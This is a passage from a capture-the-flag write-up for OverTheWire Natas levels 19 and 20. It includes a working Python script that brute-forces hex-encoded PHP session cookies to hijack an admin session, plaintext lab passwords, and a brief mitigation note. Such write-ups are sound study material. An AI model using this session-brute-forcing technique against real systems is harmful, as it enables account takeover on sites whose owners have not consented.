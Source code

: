 #### How you passed the challenge
COOKIE is a hex representation of "number-username". similar to previous level brute force.

#! /bin/python
import requests, string, sys, binascii, codecs
url = "http://natas19.natas.labs.overthewire.org"
username = "natas19"
password = "8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s"
characters = ''.join([string.digits, string.ascii_letters])
passchar = []

s_msg = 'You are an admin'
f_msg = 'You are logged in as a regular user'

decode_hex = codecs.getdecoder("hex_codec")
encode_hex = codecs.getencoder("hex_codec")

for idnum in range(0, 640):
    idstr = ''.join([str(idnum),'-','admin'])
    sesid = binascii.hexlify(bytes(idstr, "utf-8")).decode('utf-8')
    cookie = dict(PHPSESSID=str(sesid))
    query = '/index.php?username=admin&password=test&debug'
    uri = url+query
    r = requests.get(uri, auth=(username, password), cookies=cookie)
    if(s_msg in r.text):
        print("Success {}".format(r.text))
        sys.exit()
    elif f_msg in r.text:
        print("Fail SessID# {} - {}".format(sesid, decode_hex(sesid)))
        print(cookie)

#### What sins are evidenced in this challenge
** Sins here **

#### How could those sins be mitigated
Ensure cookie are tamper proof with MAC or other mecanism that allows data validation on server as well


---
### Natas 20

#### Credentials
natas20
guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH

#### How you passed the challenge
Reading the PHP source code the session_set_save_handler calls mywrite function.
mywrite function has no controls(except alpha chars) and based on the session id it writes whatever is posted to the backend. In this case print_credentials looks for and admin 1 entry.

#! /bin/python
import requests, string, sys, binascii, codecs
url = "http://natas20.natas.labs.overthewire.org"
username = "natas20"
password = "guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH"
